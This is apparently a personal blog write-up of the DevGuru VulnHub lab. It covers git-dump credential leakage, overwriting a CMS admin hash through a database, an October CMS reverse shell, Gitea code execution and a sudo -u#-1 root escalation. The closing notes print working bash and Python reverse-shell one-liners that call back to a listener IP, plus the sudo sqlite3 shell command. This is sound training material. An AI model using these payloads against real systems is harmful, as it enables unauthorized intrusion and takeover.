 ```yaml
---
title: Devguru
categories: [VulnHub]
tags: [CMS, PrivEsc, Public Exploit, git, gitea, Password Generate, sudo exploit, OCTOBER CMS]
image:
  path: https://guyintheclouds.com/banner/devguru-vulnhub.png
  alt: Devguru Machine 📚
---
```


## **Description ⤵️**

>💡 [DevGuru](https://vulnhub.com/entry/devguru-1,620/) is a fictional web development company hiring you for a pentest assessment. You have been tasked with finding vulnerabilities on their corporate website and obtaining root.
>
>OSCP like ~ Real life based
>
>**Difficulty:** *Intermediate* (Depends on experience)
{: .prompt-info }


### **Let’s find the IP Address first >>**

![130-1.png](/Vulnhub-Files/img/Devguru/130-1.png)

```bash
IP : 10.0.2.26
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![131-1.png](/Vulnhub-Files/img/Devguru/131-1.png)

![131-2.png](/Vulnhub-Files/img/Devguru/131-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
8585 unknown
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ⤵️

I checked port 80 and I got this static webpage.

![132-1.png](/Vulnhub-Files/img/Devguru/132-1.png)

After that I checked port 8585 and I got a gitea page, whose version is `Gitea Version 1.12.5`.

![132-2.png](/Vulnhub-Files/img/Devguru/132-2.png)

Now lets look into the directory or files bruteforcing from feroxbuster and ffuf Tool →

![134-1.png](/Vulnhub-Files/img/Devguru/134-1.png)

![134-2.png](/Vulnhub-Files/img/Devguru/134-2.png)

I also looked into searchsploit for anyt public exploit for this `gitea` version.

![132-3.png](/Vulnhub-Files/img/Devguru/132-3.png)

Since it needs Authentication So I Have to find the username and the password to get the access →

![132-4.png](/Vulnhub-Files/img/Devguru/132-4.png)

Lets use nikto also →

![132-5.png](/Vulnhub-Files/img/Devguru/132-5.png)

Since I have gitea that also means that I would also have `.git` directory as that can I also be seen in `nikto` Tool scan above so lets take a look into it.

![132-6.png](/Vulnhub-Files/img/Devguru/132-6.png)

Now we have .git as a directory so its time to extract some git directories with the help of `git-dumper` →

![132-7.png](/Vulnhub-Files/img/Devguru/132-7.png)

Now lets recon further →

Data → `/git-dump/config/databases.php` →

![132-8.png](/Vulnhub-Files/img/Devguru/132-8.png)

```bash
'database'   => 'octoberdb',
'username'   => 'october',
'password'   => 'SQ66EBYx4GT3byXH'
While opening the git-dump directory I found → adminer.php →
```
{: .nolineno}
{: .nolineno}

I used this above info to login into the phpmyadmin site like this.

![132-9.png](/Vulnhub-Files/img/Devguru/132-9.png)

After using that credentials I got this →

![132-10.png](/Vulnhub-Files/img/Devguru/132-10.png)

I then cracked this password hash with is in bcrypt from online random site and I did not able to crack it.

![132-11.png](/Vulnhub-Files/img/Devguru/132-11.png)

Now As I have access to the database to lets change the password hash according to my password and I will be using password as `password` here from http://brypt-generator.com site →

![132-12.png](/Vulnhub-Files/img/Devguru/132-12.png)

>Lets replace the password and saving it,Now I can Logged in with `frank → password` cred.
{: .prompt-tip }

Now coming back the main site lets login with `frank → password` cred and I can see OCTOBER CMS.

![132-13.png](/Vulnhub-Files/img/Devguru/132-13.png)

I got a reverse shell for october cms →

![132-14.png](/Vulnhub-Files/img/Devguru/132-14.png)

![132-15.png](/Vulnhub-Files/img/Devguru/132-15.png)

When I saved the code I loaded the site and I got this →

![132-16.png](/Vulnhub-Files/img/Devguru/132-16.png)

After some enumeration I found this → on `/var/backups/app.ini.bak` →

![132-17.png](/Vulnhub-Files/img/Devguru/132-17.png)

Now I have the credentials of gitea for mysql services lets use it similar as we did before →

```bash
username → gitea
password → UfFPTF8C8jjxVF2m
```
{: .nolineno}
{: .nolineno}

![132-18.png](/Vulnhub-Files/img/Devguru/132-18.png)

![132-19.png](/Vulnhub-Files/img/Devguru/132-19.png)

with this I got in →

![132-20.png](/Vulnhub-Files/img/Devguru/132-20.png)

Now lets use that exploit →

![132-21.png](/Vulnhub-Files/img/Devguru/132-21.png)

The Exploit was not working so lets use the mannual code execution →

![132-22.png](/Vulnhub-Files/img/Devguru/132-22.png)

![132-23.png](/Vulnhub-Files/img/Devguru/132-23.png)

![132-24.png](/Vulnhub-Files/img/Devguru/132-24.png)

Now lets edit and commit any file so I choose [README.md](http://readme.md/) file →

![132-25.png](/Vulnhub-Files/img/Devguru/132-25.png)

![132-26.png](/Vulnhub-Files/img/Devguru/132-26.png)

![132-27.png](/Vulnhub-Files/img/Devguru/132-27.png)

Now I got it →

![133-1.png](/Vulnhub-Files/img/Devguru/133-1.png)

![133-2.png](/Vulnhub-Files/img/Devguru/133-2.png)

```bash
user.txt → 22854d0aec6ba776f9d35bf7b0e00217
```
{: .nolineno}
{: .nolineno}

Now lets check the `*sudo -l*` further and I got this →

![133-3.png](/Vulnhub-Files/img/Devguru/133-3.png)

lets use it →

```bash
command →
`sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash`
```
{: .nolineno}
{: .nolineno}

![133-4.png](/Vulnhub-Files/img/Devguru/133-4.png)

![133-5.png](/Vulnhub-Files/img/Devguru/133-5.png)

```bash
root.txt → 96440606fb88aa7497cde5a8e68daf8f
```
{: .nolineno}
{: .nolineno}

![133-6.png](/Vulnhub-Files/img/Devguru/133-6.png)

<hr>

# **Summery Notes →**

1. Git enumeration with git-dumper and executing the reverse shell was on good path.
2. I enjoyed the swaping of the password method from mysql .
3. I got to know about october CMS and its reverse shell code .
4. Also about the sudo vulnerability part ←

**october CMS reverse shell code -->**

```bash
function onstart(){    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.10/4444 0>&1'");}
```
{: .nolineno}
{: .nolineno}

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}
{: .nolineno}

**root →**

```bash
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash -i'
```
{: .nolineno}
{: .nolineno}

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }